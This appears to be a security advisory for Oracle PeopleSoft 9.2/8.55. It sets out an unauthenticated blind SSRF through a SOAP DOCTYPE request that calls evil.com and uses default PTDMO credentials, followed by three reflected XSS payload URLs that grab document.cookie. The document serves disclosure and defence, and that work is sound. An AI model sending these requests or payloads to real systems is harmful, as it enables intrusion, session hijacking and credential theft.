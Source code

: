 
# Unauthenticated Blind SSRF in Oracle PeopleSoft Ingegration Gateway

Product: Oracle PeopleSoft
Version: 9.2/8.55

Similarly to CVE-2018-3167, Integration Gateway service is vulnerable to Server-Side Request Forgery.
Through a crafted SOAP pessage containing <!DOCTYPE> declaration an attacker is able to initiate HTTP and FTP requests to remote service. Response of each request is not sent back to the attacker, but successful and failed queries can be determined by timing of HTTP response.

### REQ:  
```
POST /PSIGW/PeopleSoftServiceListeningConnector?Operation=OperationName&OperationType=sync&From=RequestingNode&OrigNode=OrigNode&OrigProcess=OrigProcess&OrigTimeStamp=OrigTimeStamp&FinalDestination=FinalDestination&To=DestinationNode&SubQueue=SubQueue&NonRepudiation=Y&MessageVersion=MessageVersion HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
SOAPAction: xx
Content-Type: text/xml; action=xx
Content-Length: 1173

<?xml version="1.0"?><!DOCTYPE aaa PUBLIC "-//B/A/EN" "http://evil.com:7001/test?param=1">
<soapenv:Envelope xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://schemas.xmlsoap.org/ws/2003/03/addressing/" xmlns:xsd="http://www.w3.org/2001/XMLSchema/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance/">
  <soapenv:Header xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <wsse:Security soap:mustUnderstand="1" xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/" xmlns:wsse="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-secext-1.0.xsd">
      <wsse:UsernameToken wsu:Id="UsernameToken-1" xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd">
        <wsse:Username>PTDMO</wsse:Username>
        <wsse:Password Type="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-username-token-profile-1.0#PasswordText">PTDMO</wsse:Password>
      </wsse:UsernameToken>
    </wsse:Security>
  </soapenv:Header>
  <soapenv:Body xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"/>
</soapenv:Envelope>

```

# Reflected Cross-Site Scripting

Product: Oracle PeopleSoft
Version: 9.2/8.55

Due to insufficien input validation, PeopleSoft application is prone to multiple Cross-Site Scripting vulnerabilities.
This allows attacker for multiple client side attack scenarios, i.e. session hijacking or credential theft.

### 1. Reflected XSS in WEBLIB_PPM.ISCRIPT1

```
https://example.com/psc/[PSAPP]/EMPLOYEE/HRMS/s/WEBLIB_PPM.ISCRIPT1.FieldFormula.IScript_Main?PPMHCOMMAND=1;%0Aalert(document.cookie);
```

### 2. Reflected XSS in HRCD_CO_DIRECTORY.GBL

```
https://example.com/psc/[PSAPP]/EMPLOYEE/HRMS/c/ROLE_EMPLOYEE.HRCD_CO_DIRECTORY.GBL?pt_fname=11111111XXX000000000&IsFolder=true&TREE_SETID=&TREE_USERKEY=&TREE_NAME=COMPANY_DIRECTORY&TREE_EFFDT=2019-05-19&abnnode=11111111XXX000000000&TREE_BRANCH=&DISPL_PARENT=1&INITIAL_TREE_NODE=11111111XXX000000000&abnds=t&isleaf=false&abnpcode=WEBLIB_HRCD.ISCRIPT1.FieldFormula.IScript_setFolderFromTree&dynfid=CDOV:::&dynflbl="><script>alert(document.cookie)</script>&DataPath=&PortalPath=&hrcdrefocus=true&hrcdtablvl1=ORGCHART&hrcdparent=
```
### 3. Reflected Cross-Site Scripting in psc URL

```
https://example.com/psc/[PSAPP]/xss/x/c/x.%27%3E%3Cbutton%3ECLICK%3C!--
```
